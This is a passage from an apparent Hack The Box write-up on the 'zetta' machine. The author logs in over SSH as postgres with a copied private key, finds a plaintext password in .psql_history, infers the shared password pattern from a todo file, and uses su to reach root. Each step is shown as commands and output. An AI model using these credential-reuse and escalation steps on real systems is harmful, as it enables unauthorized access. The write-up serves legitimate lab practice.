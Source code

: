 After that I copied `id_rsa` key to name `id_rsa` key in my local machine and used. This was I got postgres shell

```bash
root@gr4n173:~$ ssh -i id_rsa postgres@zetta.htb
Linux zetta 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64
postgres@zetta:~$ whoami
postgres
postgres@zetta:~$ id
uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)
postgres@zetta:~$
```

## Postgres -> Root

Now I got the shell of user postgres and searched its home directory and got .psql_history.

```mysql
postgres@zetta:~$ cat .psql_history 
CREATE DATABASE syslog;
\c syslog
CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority smallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData text NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
\d syslog_lines
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
```
and I have todo list from shell of roy .tudu.xml and got this.

```html
  <todo done="no" collapse="no">
      <title>Change shared password scheme from &lt;secret&gt;@userid to something more secure.</title>
                                <text>
</text>
```

From above two notes: format of password of user posgres and todo list I made conclusion as password root should be `sup3rs3cur3p4ass@root`.
Finally that worked and got the `root shell` and `root.txt`.

```bash
postgres@zetta:~$ su root
Password: 
root@zetta:/var/lib/postgresql# cd
root@zetta:~# whoami
root
root@zetta:~# id
uid=0(root) gid=0(root) groups=0(root)
root@zetta:~# cat root.txt
b9407e837fb****************
```
